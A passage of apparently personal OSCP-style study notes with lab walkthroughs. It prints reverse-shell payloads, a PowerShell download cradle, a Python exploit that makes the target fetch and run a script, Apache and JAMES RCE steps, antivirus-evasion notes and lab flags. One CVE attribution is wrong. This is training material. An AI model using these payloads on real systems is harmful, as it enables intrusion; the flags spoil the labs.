**Step 1: Check SMB, something never actually tried the first time round**
```bash
smbclient -L //192.168.179.10/ -N
```
Anonymous share listing worked cleanly this time (`offsec` and `Users` shares both visible).

```bash
smbclient //192.168.179.10/Users -N
cd offsec\Downloads
ls
```
`MouseServer.exe` was sitting right there, the actual installed application.

**Step 2: Read the real version straight off the binary, not the marketing name**
```bash
get MouseServer.exe
exit
exiftool MouseServer.exe | grep -i version
```
**`Product Version: 1.8.2.5`**, nowhere close to `3.008` (the version EDB-ID 46697 actually targets).

> 📸 Screenshot: the exiftool version output, if working through this live

**Step 3: The actual breakthrough.** More digging turned up that `MouseServer.exe` isn't RemoteMouse at all, it's the binary for a **completely different, separately-named product called "Mouse Server"**, with its own CVE (**CVE-2023-29360**), also listening on port 1978. Close enough in concept (unauthenticated remote mouse/keyboard control) to look identical at the port-scan level, but a genuinely different codebase underneath, plain TCP text commands instead of RemoteMouse's binary UDP keycode protocol.

A dedicated writeup ([seg-fault.gitbook.io](https://seg-fault.gitbook.io/researchs/windows-security-research/exploit-development/mouse-server)) confirmed the exact banner seen this whole time (`"system windows 6.2"`) and laid out the real command set:
- `openfile <path>`, launches a program
- `browser openurl <url>`, opens a URL in the default browser
- `utf8 <text>\r\r\n`, types text into whatever window currently has focus

**Step 4: Confirm the actual protocol works at all**, using the same URL-open trick that had already been tried (and failed) against the wrong product earlier. This time it worked, the target's browser genuinely fetched the test URL, `GET /test` followed by a `GET /favicon.ico`, classic browser behavior once a page has loaded.

**Step 5: The `openfile cmd.exe` + `utf8` combination didn't work**, for reasons never fully pinned down, so switched to the alternative approach instead: download a file directly and execute it, since the underlying `browser openurl` mechanism was already proven working.

**Step 6: Windows Defender blocked two compiled payloads in a row.** Both downloaded successfully (confirmed via `GET .../reverse.exe 200` and `GET .../reverse_encoded.exe 200` in the web server log), but neither ever produced a shell:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<kali_ip> LPORT=4444 -e x86/shikata_ga_nai -i 9 -f exe > reverse_encoded.exe
```
*Both of these are extremely well-known, heavily-signatured `msfvenom` outputs (`shikata_ga_nai` in particular has been a Defender detection for years). A download succeeding but execution never happening is a genuine tell that AV is catching the file, not that the exploit chain itself is broken.*

**Step 7: Swap the compiled binary for something plain-text instead.** Reused the same PowerCat download-cradle payload that had already worked flawlessly all session on other boxes, just delivered as a tiny `.bat` file this time instead of a compiled EXE:
```bash
cat > shell.bat << 'EOF'
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<kali_ip>:8000/powercat.ps1');powercat -c <kali_ip> -p 4444 -e powershell"
EOF
```

**The final working exploit:**
```python
import socket, time, sys

target = sys.argv[1]
port = 1978
attacker_ip = "<kali_ip>"
attacker_port = "8000"
filename = "shell.bat"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
banner = s.recv(1024)
print("Banner:", banner)

s.send(f"browser openurl http://{attacker_ip}:{attacker_port}/{filename}\n".encode())
time.sleep(2)
s.send(f"openfile C:\\Users\\offsec\\Downloads\\{filename}\n".encode())
time.sleep(1)
s.close()
```

**And it worked:**
```
PS C:\Windows\system32> whoami
remotemouse\offsec
PS C:\Windows\system32> type C:\Users\offsec\Desktop\flag.txt
OS{2d1fa38427aa33b4db3a5d14473f46f6}
```

> 📸 Screenshot: the caught shell + flag, if you want visual evidence for a report

**The real lesson from this whole lab:** a port-scan-level signature, an open port plus a generic-looking banner, can genuinely belong to more than one unrelated product. Assuming the first plausible-looking `searchsploit` match is definitely correct cost a huge amount of time here. The platform's hint (go check what's actually installed, not just what the port suggests) was the fast path the whole time, and would've skipped the entire RemoteMouse detour if checked first.

**Lab answer:** **`OS{2d1fa38427aa33b4db3a5d14473f46f6}`**, `remotemouse\offsec`. ✅ Done, via CVE-2023-29360 (Mouse Server), not EDB-ID 46697 (RemoteMouse).

> 🧭 Quick lookup: [[Locating Public Exploits (Decision Tree)|Decision Tree]] (the "port-scan banner suggests one product but the matching exploit doesn't work" entry comes directly from this lab)

#### Tags: #Lab #Quiz #Module13 #RemoteMouse #MouseServer #CVE202329360 #PythonPortingBugs #WindowsDefenderEvasion

---

### PublicExploits02

Hinted exercise, standalone target (`192.168.179.188`, no credentials provided). Platform hint: scan the ports and note the web server version, search for a matching exploit and check its required arguments, use a bash reverse shell to get a more interactive session, flag is under `/home/offsec/`.

**Step 1: Port scan**
```bash
rustscan -a 192.168.179.188 -- -sC -sV
```
*Rustscan wasn't installed on this box, worth remembering it doesn't ship on Kali by default the way you might expect. Installed via the GitHub release directly: the project moved from `RustScan/RustScan` to `bee-san/RustScan` at some point, so a hardcoded old download URL 404's silently. `curl -sL https://api.github.com/repos/RustScan/RustScan/releases/latest | grep browser_download_url` finds the current real asset instead of guessing a version number. The asset itself is a `.deb` wrapped inside a `.zip` (`rustscan.deb.zip`), unzip it first, then `apt install ./<the actual .deb filename>.`*

Only one port open: **80/tcp, Apache httpd 2.4.49**.

> 📸 Screenshot: the Rustscan/Nmap output confirming Apache 2.4.49

**Step 2: Search for a matching exploit**
```bash
searchsploit apache 2.4.49
```
Exact hit: **EDB-ID 50383**, `Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)`, the exact same CVE-2021-41773 family already covered manually back in [[09. Common Web Application Attacks#9.1.3. Encoding Special Characters|9.1.3]] and via Nmap NSE in [[07. Vulnerability Scanning#7.3.2. Working with NSE Scripts|7.3.2]]. This time it's a ready-made exploit script instead of a hand-built `curl` payload.

**Step 3: Read the exploit before running it, per 13.1's own rule**
```bash
searchsploit -m multiple/webapps/50383.sh
cat 50383.sh
```
It's a small bash script: for each host in a target list, it sends a POST request with `--path-as-is` through the same asymmetric `.%2e/%2e%2e/...` traversal pattern already seen in this module, landing on `/bin/sh` under `cgi-bin` and feeding it a command via the POST body. Usage: `./PoC.sh targets.txt <path> <command>`.

**Step 4: Confirm code execution with a harmless command first**
```bash
echo "http://192.168.179.188" > targets.txt
bash 50383.sh targets.txt /bin/sh whoami
```
Result: `daemon`. Confirmed RCE as the Apache worker user.

**Step 5: Escalate to a proper reverse shell**
```bash
ip a show tun0    # confirm current VPN IP, don't assume it's unchanged from an earlier session
```
```bash
nc -lnvp 4444
```
```bash
bash 50383.sh targets.txt /bin/sh "bash -c 'bash -i >& /dev/tcp/192.168.45.179/4444 0>&1'"
```
*The whole reverse shell one-liner has to be quoted as a single argument to the script, since it's passed straight through as `$3`.* Listener caught a shell as `daemon`.

> 📸 Screenshot: the caught reverse shell

**Step 6: Find and read the flag**
```bash
whoami
ls -la /home/offsec/
cat /home/offsec/flag.txt
```
`flag.txt` was owned by `root` but `-rw-r--r--` (world-readable), so `daemon` could read it directly, no privilege escalation needed at all.

**Lab answer:** **`OS{d9637364f8fff6b86c0c105065010cbe}`**, `daemon`. ✅ Done, via EDB-ID 50383 (CVE-2021-41773 RCE variant, `cgi-bin` traversal to `/bin/sh`).

> 📋 Generalized copy-pasteable commands for this technique: [[13. Locating Public Exploits#SearchSploit|Command Appendix]]
> 🧭 Quick lookup: [[Locating Public Exploits (Decision Tree)|Decision Tree]]

#### Tags: #Lab #Quiz #Module13 #Apache2449 #CVE202141773 #Rustscan #BashReverseShell

### Capstone: PublicExploits03

No hand-holding this time, enumerate services first, find and vet the right exploit, get code execution, read `/home/challenge/flag.txt`. Target `192.168.179.52`, no credentials for the vulnerable service itself, but SSH creds (`student`/`lab`) were provided for port 32826, which turned out to matter a lot, see below.

> ℹ️ **Note from the module:** one possible path through this capstone needs `msfvenom`, which hasn't been formally covered yet (gets its own module later):
> ```bash
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > reverse.exe
> ```
> Already used once elsewhere in this vault too, see [[Windows Methodology#Step 2: Shells & Payloads|Windows Methodology]]'s `msfvenom` entry. **Not actually needed for the path taken below**, this box turned out to be a Linux target with a much more direct exploitation route, worth remembering this note describes a possible path, not necessarily the one every instance takes.

**Step 1: Port scan**
```bash
rustscan -a 192.168.179.52 -- -sC -sV
```
Six ports open, all pointing at the same service suite: `22` (OpenSSH 8.4p1, likely just the base VM's own SSH), `32822` (`james-admin`), `32823` (`nntp`, JAMES), `32824` (`pop3`, JAMES), `32825` (`smtp`, JAMES), `32826` (a *second* OpenSSH, 7.6p1, the one the provided creds actually target). **Apache JAMES 2.3.2**, an old open-source mail server, with its entire usual port set remapped up into the 328xx range instead of the defaults (4555 admin / 119 nntp / 110 pop3 / 25 smtp).

> 📸 Screenshot: the Rustscan/Nmap output showing all six ports and JAMES 2.3.2

**Step 2: Search for a matching exploit**
```bash
searchsploit apache james
```
Two RCE candidates for this exact version: EDB-ID 35513 (older) and **EDB-ID 50347**, a 2021 Python 3 rewrite of the same technique with clearer comments. Went with the newer one.

**Step 3: Read the exploit before running it**
```bash
searchsploit -m linux/remote/50347.py
cat 50347.py
```
**The mechanism, worth actually understanding rather than just running:**
1. Connects to JAMES' Remote Administration Tool (default port 4555) using JAMES' well-known default creds, `root`/`root`, and creates a "user" whose username is actually a directory-traversal path: `../../../../../../../../etc/bash_completion.d`. JAMES uses the username to build a file path for that user's mail storage, so this plants a mailbox *inside* `/etc/bash_completion.d/` instead of JAMES' own mail directory.
2. Connects to JAMES' SMTP port (default 25) and sends an email addressed to that same traversal-path "recipient." The email body becomes the file content written into `/etc/bash_completion.d/`.
3. `/etc/bash_completion.d/*` gets auto-sourced by `/etc/bash.bashrc` every time a new interactive bash shell starts, e.g. on SSH login. So the payload (a plain bash reverse shell one-liner by default) fires the next time *anyone* logs in via SSH and gets a bash prompt.

**Step 4: Modify the hardcoded ports to match this target, exactly as the hint says**
```bash
sed -i 's/s.connect((remote_ip,4555))/s.connect((remote_ip,32822))/' 50347.py
sed -i 's/s.connect((remote_ip,25))/s.connect((remote_ip,32825))/' 50347.py
grep -n "s.connect" 50347.py
```
Confirmed both edits landed before running anything.

**Step 5: Start a listener, run the exploit, then trigger it**
```bash
nc -lnvp 4444
```
```bash
python3 50347.py 192.168.179.52 192.168.45.179 4444
```
```bash
ssh student@192.168.179.52 -p 32826
```
*The SSH login is the actual trigger, not incidental, the `student`/`lab` creds given for that specific port exist purely to start a bash shell and detonate the planted payload. Nothing about those creds themselves needed exploiting.*

> 📸 Screenshot: the caught reverse shell

**Step 6: Find and read the flag**
```bash
whoami
cat /home/challenge/flag.txt
```
Landed as `challenge`, flag readable directly, no privilege escalation needed.

**Lab answer:** **`OS{889376aad2838f460547145a4c037742}`**, `challenge`. ✅ Done, via EDB-ID 50347 (Apache JAMES 2.3.2 directory-traversal-to-`bash_completion.d` RCE, triggered by the provided SSH login).

🔁 **Similar to:** planting a payload somewhere it'll get auto-executed by an unrelated later action (here, someone else's SSH login sourcing `bash_completion.d`) is the same underlying idea as [[Bashed|the Bashed box writeup]]'s root cron job picking up a dropped `.py` file, plant now, wait for something else to trigger execution, rather than triggering it yourself.

> 🔗 **HackTricks** has a general Apache James pentesting reference if a future target runs a different JAMES version than this exact 2.3.2 RCE targets: [book.hacktricks.wiki](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smtp/index.html).

> 🔍 Full breakdown of the traversal-to-mailbox-path-to-`bash_completion.d` mechanism, and why patching the hardcoded ports was necessary: [[Locating Public Exploits (Breakdowns)#Apache JAMES directory-traversal-to-bash_completion.d RCE|Command Breakdowns]]
> 📋 Generalized copy-pasteable commands for this technique: [[13. Locating Public Exploits#SearchSploit|Command Appendix]] (exploit-patching pattern)
> 🧭 Quick lookup: [[Locating Public Exploits (Decision Tree)|Decision Tree]]

#### Tags: #Lab #Quiz #Module13 #Capstone #ApacheJames #DirectoryTraversal #SSHTriggeredRCE #BashCompletionD

---

## 13.5. Wrapping Up

The core discipline this module teaches: enumerate precisely (the exact software and version, not just "some web app"), search deliberately (Exploit-DB/Packet Storm/GitHub if you're online, `searchsploit`/NSE if you're not), and never run code you haven't at least skimmed. The 0pen0wn case study exists specifically to make the point that "public" doesn't mean "safe."

The 13.4 walkthrough ties this together with a lot of what's already in this vault: directory brute-forcing, targeted wordlist generation, CSRF-aware brute-forcing, and the same `curl --data-urlencode` shell-delivery discipline already covered in [[10. SQL Injection Attacks|SQL Injection Attacks]].

#### Tags: #Module13Summary #PublicExploitsRecap

---

## 🎯 Related Boxes to Practice

Real HTB machines where a public exploit found via `searchsploit`/Exploit-DB is the actual foothold, verified against real writeups, not guessed.

- **[Bastard](https://0xdf.gitlab.io/2019/03/12/htb-bastard.html)** (HTB, Windows, Medium): Drupal 7.54, vulnerable to Drupalgeddon2 (CVE-2018-7600). `searchsploit drupal 7` surfaces a working exploit directly, exactly the "fingerprint the CMS version, find the matching public PoC" workflow from 13.1-13.3. Multiple independent writeups confirm both a Metasploit path and a manual PHP/Python PoC path, matching this module's "read the exploit before running it" habit.
- **[Nibbles](https://w43l.gitbook.io/oscp-preparation/htb/htb-linux-boxes/nibbles-writeup)** (HTB, Linux, Easy): Nibbleblog 4.0.3 arbitrary file upload (CVE-2015-6967). `searchsploit nibbleblog` finds EDB-38489 directly. About as close to a textbook 13.4-style "enumerate exact version → searchsploit → run it" chain as a public box gets.
- **[[5. Bratarina|Bratarina]]** (PG Practice, Linux, Easy): OpenSMTPD 6.6.2 banner on port 25 → `searchsploit opensmtpd` → EDB 47984 (CVE-2020-7247) MAIL FROM injection → direct root shell. Textbook banner-grab-to-searchsploit-to-exploit chain. Extra lesson: delivery env PATH may lack `python3`, use `python` instead; SMTP parser rejects base64 chars so payloads must stay alphanumeric.
- **[[8. Zenphoto|Zenphoto]]** (PG Practice, Linux, Easy, done ✅): Two searchsploit hits for one box. Zenphoto 1.4.1.4 version in HTML comment → `searchsploit zenphoto` → EDB-18083 (unauthenticated RCE). Then `uname -a` → kernel 2.6.32-21 → `searchsploit linux kernel 2.6.32` + `searchsploit rds kernel` → EDB-15285 (CVE-2010-3904). Demonstrates the "broad first, then specific" kernel exploit research pattern.
- **[[6. Pebbles|Pebbles]]** (PG Practice, Linux, Intermediate): ZoneMinder 1.29.0 version fingerprint in HTML title tag → `searchsploit zoneminder` → EDB-41239 (SQLi in `limit` POST param, stacked queries). Exploit file read pointed to the exact endpoint and payload format. Extra lesson: always read the exploit file — it contained the query structure and endpoint which saved time re-discovering them manually.
- **[[9. Nukem|Nukem]]** (PG Practice, Linux, Intermediate, done ✅): WordPress Simple File List plugin version in `readme.txt` → `searchsploit simple file list` → EDB-52371 (CVE-2020-36847). The exploit script (Python) revealed required POST fields (`eeSFL_ID`, `eeSFL_Token`, etc.) that aren't documented anywhere else — the endpoint returns HTTP 500 without them. Key lesson: the exploit source code is the specification; running curl alone without reading the script wasted significant time. Also: the rename step uses `eeFileOld` (not `oldFile`/`eeFilename`) — field names the script handles internally. Always read the full exploit before writing your curl equivalent.

#### Tags: #RelatedBoxes #HTBPractice #PGPractice #Module13

---

## ⚡ Modern Tooling

No addition here, deliberately. This module's own core teaching *is* the efficient-lookup layer already, `searchsploit`, Exploit-DB, NSE. There's no faster non-automation tool sitting on top of what's already the fast path. The one thing that genuinely *would* speed this up further, an automated vulnerability-to-exploit matcher like `nuclei` templates, crosses back into the same excluded automation category as sqlmap/Metasploit, matching [[MODERN TOOLING]]'s own stated boundary.

---

## **Outstanding Sections**
- [x] **13.1 Getting Started**: done (0pen0wn case study, both quiz answers)
- [x] **13.2 Online Exploit Resources**: done (Exploit-DB, Packet Storm, GitHub, Google operators, all quiz answers including a verified EDB-ID 35273 lookup)
- [x] **13.3 Offline Exploit Resources**: done (exploit frameworks including a verified Canvas/Immunity detail, SearchSploit syntax/options, NSE). All 7 hands-on SearchSploit questions completed for real on Kali too (45796/3.11, 42030, 40616, 16888, 31337, 45743)
- [x] **13.4 Exploiting a Target**: done, full qdPM walkthrough written up as a case study, CSRF handling flagged for a Command Breakdowns entry
- [x] **PublicExploitsWalkthrough**: done, `www-data` via CVE-2020-7246
- [x] **PublicExploits01**: done, `remotemouse\offsec` via CVE-2023-29360, genuinely tough one, full saga logged above
- [x] **PublicExploits02**: done, `daemon` via EDB-ID 50383 (CVE-2021-41773 RCE, `cgi-bin` traversal to `/bin/sh`)
- [x] **Capstone/PublicExploits03**: done, `challenge` via EDB-ID 50347 (Apache JAMES 2.3.2 directory-traversal RCE, SSH-login-triggered)

**Module 13 is fully complete.** ✅
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
